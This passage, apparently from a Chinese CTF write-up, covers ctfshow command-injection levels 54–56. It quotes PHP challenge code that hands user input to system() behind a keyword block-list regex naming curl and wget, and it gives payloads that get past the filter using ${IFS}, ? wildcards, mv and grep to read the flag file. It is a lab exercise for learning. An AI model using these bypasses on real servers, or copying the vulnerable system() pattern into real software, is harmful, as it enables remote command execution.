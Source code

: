 从这开始使用system()：成功返回输出的最后一行，失败返回false；并且没有/dev/null啦
` ?c=ta''c${IFS}fla?.php`

## 54

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:43:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

增强了正则过滤，实际是ban了参杂字符绕过关键字过滤，

三个思路

1. mv改名：`?c=mv${IFS}fla?.php${IFS}a.txt`；然后url访问a.txt文件

2. 因为命令都放在`/bin`下，用占位符`?`：`?c=/bin/c??${IFS}????????`(vi也可用)

3. 用grep：`grep${IFS}ctfshow${IFS}f???.???`

   > grep 命令用于查找文件里符合条件的字符串

## 55、56-无字母数字rce

55如下，56多过滤了一些特殊字符，方法不变

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 20:03:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
```